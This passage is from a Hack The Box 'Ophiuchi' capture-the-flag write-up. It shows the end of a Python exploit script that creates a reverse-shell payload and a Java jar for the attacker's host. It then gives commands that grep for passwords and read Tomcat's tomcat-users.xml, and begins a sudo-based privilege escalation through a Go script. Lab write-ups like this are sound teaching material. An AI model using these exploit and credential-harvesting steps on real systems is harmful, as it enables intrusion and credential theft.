 ```py
    thr.start()
    # Create the shell file
    createShellPayload(lhost,lport)
    # Create the java jar file
    createJavaPayload(lhost)
    # Function to send the data to the server
    exploitServer(rhost,lhost)
    
if __name__ == '__main__':
    main()
```

Let's continue.

# Tomcat --> admin

We make an enumeration on the box, and found a credential for the admin user

```sh
grep -lRi "password" .
cat ./conf/tomcat-users.xml | grep password
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-18-HackTheBox-Ophiuchi/2021-09-18-HackTheBox-Ophiuchi%2009:35:20.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-18-HackTheBox-Ophiuchi/2021-09-18-HackTheBox-Ophiuchi%2009:36:10.png)

We ssh in

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-18-HackTheBox-Ophiuchi/2021-09-18-HackTheBox-Ophiuchi%2009:37:07.png)

Now let's become root

# Admin --> Root

With `sudo -l` we found what we can run a go script with root permision

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-18-HackTheBox-Ophiuchi/2021-09-18-HackTheBox-Ophiuchi%2009:37:41.png)

We see what this script does

```go
package main

import (
        "fmt"
        wasm "github.com/wasmerio/wasmer-go/wasmer"
        "os/exec"
        "log"
)
func main() {
        bytes, _ := wasm.ReadBytes("main.wasm")

        instance, _ := wasm.NewInstance(bytes)
        defer instance.Close()
        init := instance.Exports["info"]
        result,_ := init()
        f := result.String()
        if (f != "1") {
                fmt.Println("Not ready to deploy")
        } else {
                fmt.Println("Ready to deploy")
                out, err := exec.Command("/bin/sh", "deploy.sh").Output()
                if err != nil {
```
